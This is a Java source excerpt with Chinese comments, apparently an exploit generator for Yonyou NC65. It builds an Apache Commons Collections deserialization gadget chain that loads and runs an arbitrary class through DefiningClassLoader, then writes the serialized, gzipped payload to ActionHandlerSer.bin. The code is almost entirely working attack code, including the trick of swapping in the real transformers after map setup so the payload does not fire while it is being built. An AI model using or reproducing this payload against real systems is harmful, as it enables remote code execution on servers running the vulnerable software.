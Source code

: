 ```java
//        DefiningClassLoader

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(DefiningClassLoader.class),
                new InvokerTransformer("getDeclaredConstructor", new Class[]{Class[].class}, new Object[]{new Class[0]}),
                new InvokerTransformer("newInstance", new Class[]{Object[].class}, new Object[]{new Object[0]}),
                new InvokerTransformer("defineClass",
                        new Class[]{String.class, byte[].class}, new Object[]{"org.vulhub.nc65.dfs", bs}),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"main", new Class[]{String[].class}}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{null}}),
                new ConstantTransformer(1),
        };
        //先传入一个人畜无害的fakeTransformers对象，避免本地调试时出发命令执行
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        // 创建一个map，不用添加Entry
        Map innerMap = new HashMap();

        // 调用LazyMap.decorate实例化LazyMap
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");


        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");

        // ==================
        //将真正的transformers数组设置进来
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        // 序列化数据并写入文件
        serialize(expMap);
        // 从文件读取数据进行反序列化
//        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("./ActionHandlerSer.bin");
        ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);
        outputStream.writeObject(obj);
        outputStream.close();
        fileOutputStream.close();

        FileInputStream inputFromFile = new FileInputStream("./ActionHandlerSer.bin");
        byte[] bs = new byte[inputFromFile.available()];
        inputFromFile.read(bs);
        GZIPOutputStream gzip = new GZIPOutputStream(new FileOutputStream("./ActionHandlerSer.bin.gz"));
        gzip.write(bs);
        gzip.close();
//        System.out.println();
    }

```